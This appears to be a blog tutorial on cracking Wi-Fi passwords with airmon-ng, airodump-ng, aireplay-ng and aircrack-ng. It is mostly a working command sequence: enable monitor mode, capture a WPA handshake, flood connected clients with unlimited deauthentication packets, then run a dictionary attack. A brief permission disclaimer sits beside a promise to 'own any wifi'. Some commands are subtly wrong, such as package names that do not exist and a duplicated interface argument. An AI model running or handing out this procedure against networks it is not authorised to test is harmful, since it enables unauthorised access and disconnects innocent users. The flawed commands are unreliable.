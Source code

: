 ```yaml
---
title: 'Wifi Password cracking'
date: 'July 8, 2022'
excerpt: 'This blog will help you to crack wifi password using airmon-ng.'
cover_image: '/images/posts/img1.jpg'
---
```


# Wifi Password Cracking with airmon-ng.

>This blog will help you to crack wifi password using airmon-ng.

>Disclaimer: Use this cracking method only if you own the wifi or you have permission to crack. Don't use it illegal.

>The following instruction will lead you to own any wifi (only if the password is available on wordlist).            
---
---
## Tools needed: 
* kali-linux
* airmon-ng
* airodump-ng
* aireplay-ng
* aircrack-ng

Commands for installing required packages :
```bash
$ sudo apt update && sudo apt upgrade -y
sudo apt install airmon-ng airodump-ng aireplay-ng aircrack-ng
```

To kill all processes and wifi will also be disabled :
```bash
$ sudo airmon-ng check kill
```

To start wifi module :
```bash
$ sudo airmon-ng start wlan0 
```

 To start wifi into monitoring mode for capturing packets :
```bash
sudo airmon-ng start wlan0mon
```
This command is only for checking whether wifi is in monitoring mode wlan0mon :
```bash
iwconfig 
```
Shows the details of wifi networks available nearby :
```bash
sudo airodump-ng wlan0mon 
ctrl+c (stops capturing)
``` 
*copy the bssid and channel of wifi, which you want to get into.*

This command will show you one particular wifi network, you have to paste the channel no. and bssid of the particular wifi :
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon
```

The next instruction will help you to capture the 4-way handshake.
You have to specify any name in which the .cap captured flag will be saved
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> wlan0mon -w <name of the output file>
ctrl+c (stop capturing only after getting the 4-way handshake)
```

Now open another terminal (terminal 2) and run the following command for deauthenticating the devices connected to the wifi 
```bash
sudo aireplay-ng --deauth 0 -a <bssid> wlan0mon
```
(this command will deauthenticate/disconnect the already connected devices to that wifi. So that we can get the 4-way handshake)

**now the 4-way handshake will be saved in terminal 1**

```bash
ctrl+c (stop capturing only after getting the 4-way handshake)
```

*the captured file will be saved as .cap file in you directory*

This command stops monitoring mode :
```bash
sudo airmon-ng stop wlan0mon 
```

Restart your wifi module :
```bash
sudo service network-manager start 
```

Start cracking your password :
*(you have to specify the name of your .cap file and full path to the wordlist)*
```bash
aircrack-ng <name of the .cap file> -w /usr/share/wordlists/rockyou.txt
```



>It will start cracking the password. This attack is known as bruteforce attack or dictionary attack.

>Password will be cracked only if the password is available on the wordlist you are specifying.

>Save your wifi by having a strong password.
